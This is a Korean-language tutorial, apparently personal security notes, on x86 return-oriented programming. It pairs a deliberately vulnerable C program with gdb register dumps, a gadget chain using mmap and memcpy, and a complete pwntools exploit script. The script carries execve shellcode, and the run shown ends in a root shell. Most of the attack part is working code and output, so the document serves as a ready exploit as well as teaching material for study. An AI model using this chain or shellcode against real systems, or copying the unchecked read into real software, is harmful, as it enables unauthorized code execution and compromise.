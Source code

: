 # **x86 Return Oriented Programming(mmap)**

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

* "A"*66을 입력해 Overflow 가능.

```
gdb-peda$ x/24wx $ebp
0xbffff538:	0x41414141	0x0804850a	0xb7fb63dc	0xbffff560
```

* **POPAD**: 스택에 존재하는 값을 EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 레지스터에 저장.

```
gdb-peda$ x/24wx $esp
0xbfdfca50:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfdfca60:	0x45454545	0x46464646	0x47474747	0x48484848
```

* 이 상태에서 POPAD할 경우 다음과 같이 레지스터에 저장된다.

```
EAX: 0x48484848 ('HHHH')
EBX: 0x45454545 ('EEEE')
ECX: 0x47474747 ('GGGG')
EDX: 0x46464646 ('FFFF')
ESI: 0x42424242 ('BBBB')
EDI: 0x41414141 ('AAAA')
EBP: 0x43434343 ('CCCC')
ESP: 0xbfdfca70 ("IIIIlg۷n313337277")
```

* **PUSHAD**: EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI 순으로 레지스터의 값을 스택에 저장한다.  
* 위와 같이 POPAD 한 상태에서 PUSHAD 한 경우의 esp.

```
gdb-peda$ x/24wx $esp
0xbfe351f4:	0x41414141	0x42424242	0x43434343	0xbfe35214
0xbfe35204:	0x45454545	0x46464646	0x47474747	0x48484848
```

## **Exploit Method**
1. mmap() 함수를 이용하여 새로운 메모리 영역 할당
1. POPAD Gadget에 의해 memcpy() 함수 주소가 저장된 영역으로 이동
  * Libc의 memcpy() 함수는 Exploit Code에서 사용할 Memory 값을 복사할 수 없다.
  * memcpy() 함수는 CPU가 지원하는 Streaming SIMD 확장에 맞는 함수의 주소값을 리턴(EAX에 저장됨)
1. XCHG EAX,EDI Gadget에 의해 리턴받은 __memcpy_sse2_unaligned() 함수의 주소를 EDI 레지스터에 저장
1. POP ESI Gadget에 의해 memcpy()함수 호출 후 이동할 return address를 ESI 레지스터에 저장
1. POP EBP Gadget에 의해 1번째 인자 값을 EBP 레지스터에 저장
1. POP EBX Gadget에 의해 3번째 인자 값을 EBX 레지스터에 저장
1. PUSHAD Gadget에 의해 레지스터에 저장된 값들을 Stack 에 저장하고 0x1028 영역(0x1048 - (0x4 * 레지스터 개수(8))으로 이동
  * 2 번째 인자 값은 ESP 레지스터에 저장되어 있기 때문에 별도의 조작이 필요하지 않다.
1. 0x1028 영역에서 memcpy() 함수로 인해 Stack에 저장된 shellcode가 mmap()에 의해 생성된 메모리 영역으로 복사
1. memcpy() 함수가 종료되면 mmap()에 의해 생성된 메모리 영역으로 이동하여 shellcode를 실행
  * 해당 영역은 RWX 권한이 설정되어 있기 때문에 Shellcode 실행이 가능.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

binary = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
p=process('./rop')
#gdb.attach(p)
p.recvline()
printf_addr = int(p.recvline().split()[3],16)

print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x49670
libc_mmap = libBase + libc.symbols['mmap']
libc_memcpy = libBase + libc.symbols['memcpy']

libc_popad_ret = libBase + 0x0016b802
libc_pushad_ret = libBase + 0x0000c76c
libc_xchg_eax_edi = libBase + 0x000f5c6b
libc_pop_esi = libBase + 0x00124c3f
libc_pop_ebp = libBase + 0x00136d43
libc_pop_ebx = libBase + 0x00143fe3

new_mem = 0x20000000

payload = "A"*66
# mmap(new_mem,0x1000,0x7,0x22,0xffffffff,0)
payload += p32(libc_mmap)
payload += p32(libc_popad_ret)
payload += p32(new_mem)
payload += p32(0x1000)
payload += p32(0x7)
payload += p32(0x22)
payload += p32(0xffffffff)
payload += p32(0)
payload += 'AAAA'*2

# memcpy(new_mem,'address of shellcode',len(shellcode))
payload += p32(libc_memcpy)
payload += p32(libc_xchg_eax_edi)
payload += p32(libc_pop_esi)
payload += p32(new_mem)
payload += p32(libc_pop_ebp)
payload += p32(new_mem)
payload += p32(libc_pop_ebx)
payload += p32(len(shellcode))
payload += p32(libc_pushad_ret)
payload += shellcode

#raw_input("1")
p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/test# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/root/test/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/lib/i386-linux-gnu/libc-2.23.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 4854
printf_addr: 3084265072
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect>
